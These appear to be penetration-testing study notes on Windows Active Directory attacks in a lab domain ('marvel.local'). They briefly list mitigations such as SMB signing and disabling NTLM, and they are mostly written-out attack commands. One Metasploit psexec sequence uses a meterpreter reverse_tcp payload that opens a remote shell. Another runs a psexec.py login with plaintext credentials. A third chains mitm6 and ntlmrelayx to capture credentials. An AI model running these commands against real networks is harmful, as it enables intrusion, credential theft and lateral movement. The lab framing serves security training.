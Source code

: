 * Event occurs in Windows machine

* Credentials are captured (and saved) and we get access to machine

* Mitigation:

* Enable SMB signing on all devices

* Disable NTLM authentication on network

* Account tiering

* Local admin restriction (to prevent lateral movement)

* Gaining Shell Access:

```shell
#this step has to be done once we have the credentials
msfconsole

search psexec

use exploit/windows/smb/psexec

options
#set all required options
#such as RHOSTS, smbdomain, smbpass and smbuser

set payload windows/x64/meterpreter/reverse_tcp

set LHOST eth0

run
#run exploit
```

```shell
#we can use another tool called psexec.py
psexec.py marvel.local/fcastle:Password1@192.168.57.141

#try multiple options if these tools do not work
#such as smbexec and wmiexec
```

* IPv6 Attacks (refer [mitm6 attacks](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/) and [NTLM relays](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/) for more info):

```shell
#download and setup the mitm6 tool

#setup LDAPS as well

mitm6 -d marvel.local

#setup relay
ntlmrelayx.py -6 -t ldaps://dc.ip -wh fakewpad.marvel.local -l lootme
#generate activity on Windows machine by rebooting it
#this dumps info in another directory

ls lootme
#contains useful info
#if we keep the program running in background, and the user logins, the creds can be captured
```
